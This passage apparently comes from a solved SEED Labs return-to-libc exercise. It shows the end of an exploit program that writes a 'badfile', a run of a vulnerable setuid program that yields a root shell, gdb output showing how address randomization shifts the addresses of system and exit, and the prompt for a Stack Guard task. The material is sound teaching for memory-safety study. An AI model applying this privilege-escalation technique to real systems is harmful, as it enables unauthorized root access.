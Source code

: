 ```c
    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

Now we exploit it:

```sh
seed@ubuntu:~$ ./exploit
seed@ubuntu:~$ ./retlib
# whoami
root
```

### Task 2: Address Randomization

In this task, let us turn on the Ubuntu's address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the address randomization make your return-to-libc attack difficult?

```sh
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

Solution:
Address randomization makes these addresses different every times.

```text
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7600430 <system>
(gdb) p exit
$4 = {<text variable, no debug info>} 0xb75f3fb0 <exit>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seed/retlib 
Breakpoint 1, 0x080484b6 in main ()
(gdb) p system
$5 = {<text variable, no debug info>} 0xb7593430 <system>
(gdb) p exit
$6 = {<text variable, no debug info>} 0xb7586fb0 <exit>

seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbf8d8e8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbff0de8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbfa3ce8a
```

### Task 3: Stack Guard Protection

In this task, let us turn on the Ubuntu's Stack Guard protection. Please remember to turn off the address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the Stack Guard protection make your return-to-libc attack difficult?
